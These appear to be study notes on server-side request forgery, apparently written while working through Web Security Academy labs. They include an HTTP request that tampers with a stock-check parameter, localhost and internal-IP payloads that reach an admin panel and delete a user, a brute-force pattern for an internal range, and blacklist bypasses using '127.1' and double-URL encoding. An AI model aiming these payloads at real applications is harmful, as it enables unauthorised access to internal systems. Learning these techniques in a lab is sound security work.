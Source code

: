 ## Basic

### against the server

- stock chekcer in a shopping application queries back-end REST API:
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

> `stockApi=http://localhost/admin` => access control bypass
> `http://localhost/admin/delete?username=carlos` => delete the target user
### against other back-end systems

> `stockApi=http://192.168.0.68/admin` => access control bypass 

- say you have a ip range like `192.168.0.X`:
> **Brute Force**:  `http://192.168.0.§X§:8080/admin` -> 200 status => access control bypass

## blacklist-based input filters

> 1) **stockApi**: `http://127.0.0.1/` -> blocked
> 2) `http://127.1/` -> bypassed but `http://127.1/admin` still gets blocked
> 3) **Obfuscate the "a"**(double-URL encode): `http://127.1/%2561dmin` -> success
## whitelist-based input filters
#todo 

## via open redirection

>  1) **stockApi** -> direct ssrf isn't possible.
>  2) `path` parameter when you click "next product" -> open redirect 
>  3) `/product/nextProduct?path=http://192.168.0.12:8080/admin`
>  4) `.../delete?username=carlos` 
# Blind SSRF

### blind ssrf with shellshock exploitation
#todo
